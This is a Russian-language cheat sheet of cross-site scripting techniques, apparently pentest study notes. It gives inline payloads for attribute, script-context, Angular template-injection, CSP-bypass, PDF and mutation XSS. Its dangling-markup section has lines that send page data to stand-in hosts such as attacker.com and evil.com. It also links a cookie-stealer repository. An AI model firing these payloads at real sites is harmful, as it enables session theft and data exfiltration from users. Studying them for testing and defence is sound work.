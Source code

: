 ***
# Репозитории с XSS payloads

[Tiny XSS Payloads](https://tinyxss.terjanq.me/)
[PayloadsAllTheThings/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#cross-site-scripting)
[kensworth/cookie-stealer](https://github.com/kensworth/cookie-stealer)

***
# Навигация

> [[XSS#XSS в HTML атрибутах|1. XSS в HTML атрибутах]]
> [[XSS### XSS into JavaScript|2. XSS into JavaScript]]
> [[XSS#CSTI - Client side template injection|3. CSTI - Client side template injection]]
> [[XSS#Dangling Markup|4. Dangling Markup]]
> [[XSS#**CSP**|5. CSP]]
> [[XSS#Self-XSS|6. Self-XSS ]]
> [[XSS#PDF-XSS|7. PDF-XSS]]
> [[XSS#Mutation XSS|8. Mutation XSS]]
> [[XSS#Bliend XSS|9. Bliend XSS]]
***

## Формы отправки запросов JS

``` html
<script>
	fetch('https://site.com/', {method: "GET"}) // обычный GET запрос
</script>
```
``` html
<script>
	const req = new XMLHttpRequest()
	req.open("GET", "https://site.com/")
	req.send() // обычный GET запрос
</script>
```

---

# XSS в HTML атрибутах

[portswigger.net/XSS/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
1. Через intruder проверить не заблокированные теги и атрибуты.
2. Если ввод попадает в href, можно использовать следующую конструкцию `javascript:alert(1)`. Выйдет следующее: 
`<a href="javascript:alert(document.domain)">`
3. Проверь атрибут `accesskey`. Пример: 
`https://web-site/?%27accesskey=%27x%27onclick=%27alert(1)`; где `%27` = `'`. 
Скрипт сработает при нажатии:
- On Windows: `ALT+SHIFT+X` / `ALT+X`
- On MacOS: `CTRL+ALT+X`
- On Linux: `Alt+X`
# XSS into JavaScript
Если ввод попадает в скрипт внутри HTML:
1. Попытаться закрыть тег предыдущего скрипта и открыть новый: `</script><img src=1 onerror=alert(document.domain)>`
2. Если ввод находится в литералах : \` \`, ' ', " ", стоит попытаться выйти из них:
	```javascript
	'-alert(document.domain)-'
	';alert(document.domain)//
	```
	
	2.1. Если литералы экранируются, стоит проверить экранацию косой черты: \\ : ``\';alert(document.domain)//``
	2.2. Если косая черта экранируется, можно закодировать литерал, скорее всего в HTML кодировку: 
	`&apos;-alert(document.domain)-&apos;`
	2.3. Использовать конструкцию \${}: `${alert(document.domain)}`
1. Если запрещены круглые скобки, можно передавать аргументы в функции через конструкцию: `onerror=alert;throw 1`

# CSTI - Client side template injection
[XSS in Angular.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)
**CSTI** - тип уязвимости, возникающий, когда разработчик позволяет пользовательскому вводу определять выражения шаблонов на веб-странице, что позволяет злоумышленнику внедрять вредоносные выражения шаблонов (которые являются упрощённым JavaScript) для эксплуатации веб-приложения. Это происходит в браузере и HTML, аналогично тому, как работает межсайтовый скриптинг (XSS). Некоторые JS фреймворки, такие как AngularJS, имеют песочницу, которая предотвращает использование определённых объектов, к которым разработчик не имел права доступа. Чтобы злоумышленник мог эксплуатировать это, ему нужно найти способ "выбраться" из песочницы, что означает получение доступа к областям, таким как объект документа, чтобы проэксплуатировать веб-приложение.

>Также иногда с помощью CSTI могут обходить CSP, допустим он разрешает погружать скрипты только с [some.com](http://some.com/), вы идёте туда, находите там Angular.js файл, а дальше подключаете его к странице, внедряете директиву ng-app и вставляете пэйлоад:

`<script src='<https://some.com/angular.min.js>'></script><div ng-app>{{$on.constructor.constructor('alert(document.domain)')()}}`

Для эксплуатации CSTI в Angular без песочницы используют следующую полезную нагрузку:

`{{$on.constructor('alert(1)')()}}`
# Dangling Markup
Кража данных посредством эксплуатации пэйлоада с открывающейся `'`, но не закрывая её:
[Dangling Markup - HTML scriptless injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)
```html 
<img src='http://attacker.com/log.php?HTML=
```
```html
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
```
```html
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
# **CSP**
[Content Security Policy (CSP) Bypass | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

<div style="margin:5px; padding:5px; background-color: #E56D3D"><b>CSP (Content Security Policy)</b> - позволяет определять белые списки источников для подключения JavaScript, стилей, изображений, фреймов, создания соединений. </div>

<div style="margin:5px; padding:5px; background-color: #E56D3D">Также CSP может регулировать возможность исполнения inline-скриптов, возможность подключения текущей страницы во фрейме и т. д.</div>

CSP — это механизм безопасности браузера, целью которого является смягчение XSS и некоторых других атак. Он работает путем ограничения ресурсов (таких как скрипты и изображения), которые может загружать страница, и ограничения возможности включения страницы в рамки других страниц. 

Чтобы включить CSP, ответ должен включать заголовок `Content-Security-Policy` со значением, содержащим политику. Сама политика состоит из одной или нескольких директив, разделенных точкой с запятой.
## CSP директивы 

[CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/) - сервис для проверки на безопасность веб-страницы по её CSP тегам. 
![[CSP директивы.png]]

# Self-XSS
**Self-XSS** - это форма атаки, при которой жертва атаки ненамеренно запускает вредоносный код в своём собственном браузере, что приводит к раскрытию личной информации атакующему. Это достигается путём **обмана пользователей в копировании и вставке вредоносного контента в консоль веб-разработчика** их браузера. В обычных условиях атакующий публикует сообщение, утверждая, что копирование и выполнение определённого кода позволит пользователю получить виртуальные награды или взломанный сайт. На самом деле код позволяет атакующему захватить учётную запись жертвы. 

# PDF-XSS
Если браузер использует PDF, можно исполнить JS следующим образом:
```url
https://sute/file.pdf#any=javascript:alert(1)
```
# Mutation XSS
**Mutation XSS (mxss)** - тип атаки на веб-приложение, который происходит, когда ненадёжные данные обрабатываются в контексте свойства DOM 'innerHTML' и изменяются браузером. Этот  тип атаки особенно опасен, поскольку он может обойти большинство существующих фильтров и санитайзеров XSS, позволяя вредоносному коду выполняться в браузере пользователя. Примером может служить ситуация, когда сервер корректно экранирует входные данные, но не предотвращает их декодирование браузером в вредоносный скрипт из-за сложного поведения браузера, который переинтерпретирует контент. 
Другими словами браузер может самостоятельно не только декодировать символы, но и дописывать HTML теги. Т.е если подать на вход:
```javascript
<template><p title="</template><img src=x onerror=alert(1)>">
```
То браузер может переписать это в:
```javascript
<template>
	<p title="</template><img src=x onerror=alert(1)>"></p>
</template>
```
# Bliend XSS
**Bliend XSS** - тип уязвимости, при котором вредоносный код внедряется в веб-приложение и сохраняется на сервере, но его выполнение происходит в другом месте, недоступном для атакующего. 
Можно поднять у себя следующую службу: [XSS Hanter Express](https://github.com/mandatoryprogrammer/xsshunter-express), они служит отличный инструментом для эксплуатации **bliend XSS**.

---

### Прочие Payload-ы

``` html
<div style=background-image: url(javascript:alert(XSS))>
```